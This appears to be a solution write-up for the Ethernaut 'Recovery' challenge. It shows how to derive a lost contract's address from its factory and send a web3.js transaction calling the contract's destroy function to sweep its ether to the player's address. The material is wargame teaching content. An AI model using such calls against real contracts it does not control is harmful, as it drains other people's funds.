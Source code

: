 ## Can be solved directly on ethernaut page
1. We'd need to figure out how to get the lost contract address. There are 2 simple ways of doing so:
    1. Calculate the address using a formula (based on how new contract addresses are determined from the ethereum yellow paper). This can be done using the following code:
    ```
    fullStr = web3.utils.soliditySha3("0xd6", "0x94", contract.address, "0x01") 
    contractAdd = "0x" + fullStr.slice(-40)
    ```
    2. Get the address from etherscan based on the factory address. Look into the internal transactions tab and look for the latest contract creation transaction to get the token contract address.
2. Once we have the address, we'd just need to call the destroy function and pass in our player address to get the funds.
```
data = web3.eth.abi.encodeFunctionCall({
    name: "destroy",
    type: "function",
    inputs: [{
        type: "address",
        name: "_to"
        }]
    }, [player])
await web3.eth.sendTransaction({
    to: contractAdd,
    from: player,
    data: data
})
```